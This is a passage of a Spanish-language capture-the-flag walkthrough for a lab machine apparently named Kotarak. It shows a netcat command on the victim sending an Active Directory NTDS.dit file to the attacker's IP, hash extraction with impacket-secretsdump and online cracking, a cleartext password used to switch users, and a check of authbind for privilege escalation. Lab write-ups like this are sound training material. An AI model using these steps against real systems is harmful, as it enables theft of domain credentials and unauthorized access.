 1. en la maquina victima

    ```bash
    nc 10.10.14.6 443 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
    ```

#### Recuperando hashes nt desde ficheros Active Directories {-}

```bash
mv ntds.dit ntds
mv ntds.bin SYSTEM
impacket-secretsdump -ntds ntds -system SYSTEM LOCAL
```

Aqui copiamos los diferentes hashes en un fichero llamado hash

```{r, echo = FALSE, fig.cap="hashes ntds", out.width="90%"}
    knitr::include_graphics("images/Kotrarak-hashes.png")
```

cat hash | awk '{print $4}' FS=":" y copiamos los hashes en la pagina [crack station](https://crackstation.net/)

```{r, echo = FALSE, fig.cap="hashes crackstation", out.width="90%"}
    knitr::include_graphics("images/Kotarak-crackstation.png")
```

intentamos las contraseñas para pasar al usuario atanas

```bash
su atanas
Password: f16tomcat!
whoami
> atanas
```

y ya podemos ver la flag
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
cat flag.txt
```

Hemos podido entrar en el repertorio root pero la flag no es la buena. Hay un fichero app.log y vemos que hay una tarea
que parece que se lanza cada 2 minutos y que nos hace un GET desde la maquina 10.0.3.133 a la maquina victima.

Intentamos ponernos en escucha al puerto 80 con ncat pero tenemos un Permission denied. Miramos si la utilidad authbind esta installada porque
authbind es un binario que permite a un usuario con bajos privilegios de ponerse en escucha por un puerto definido.

```bash
which authbind
ls -la /etc/authbind/byport
```
